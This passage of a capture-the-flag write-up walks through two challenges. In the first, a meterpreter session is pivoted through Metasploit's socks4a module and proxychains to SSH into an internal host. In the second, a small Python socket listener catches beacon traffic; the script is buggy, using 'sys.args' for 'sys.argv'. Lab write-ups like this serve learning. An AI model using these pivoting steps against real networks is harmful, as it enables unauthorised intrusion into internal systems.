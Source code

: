 ```bash

```
Next, ran the `socks4a` module to create proxy so that we can tunnel our traffic via metasploit and since we have autoroute in place in metasploit we can reach any internal network using the proxy.
```bash
meterpreter > background
msf5 exploit(multi/handler) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > run
```
Finally, Added the proxy in proxychains.conf:

```bash
root@ubuntu:~/defcon# echo "socks4 	127.0.0.1 1080" >> /etc/proxychains.conf
```
Now we can login to that internal host using proxychains with ssh:
```bash
proxychains ssh whistler@10.218.176.199
```
The flag was displayed in the welcome message.


## # 4 Beacons everywhere
The instruction for this was "Something is Beaconing to the pivot on port 58671-58680 to ip 10.112.3.199, can you tunnel it back?"

Since its the ip of the box we just connected to in previous challenge we can listen on any of those port in a loop to receive beacon data. I used the below python3 script to sniff the traffic:
```python
import socket
import sys
import sys

def sniff(ip, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_address = (ip, port)
    sock.bind(server_address)
    sock.listen(1)
    while True:
        conn, client_address = sock.accept()
        while True:
            data = conn.recv(16)
            if data:
                print(data)
            else:
                break
        conn.close()
        
try:
    ip = sys.args[1]
    port = int(sys.args[2])
except IndexError as ierr:
    print("usage : python3 script.py ip port")
    sys.exit()

try:
    sniff(ip, port)
except KeyboardInterrupt:
    sys.exit()
``` 
I transfered the sniff.py in same way how I transfered the `pay.bin` file previously. Next, Ran the script:
```bash
python3 sniff.py 10.112.3.199 58671
```
It started listening in a loop for any connection on that port in a loop and after some time received the flag along with bunch of random data.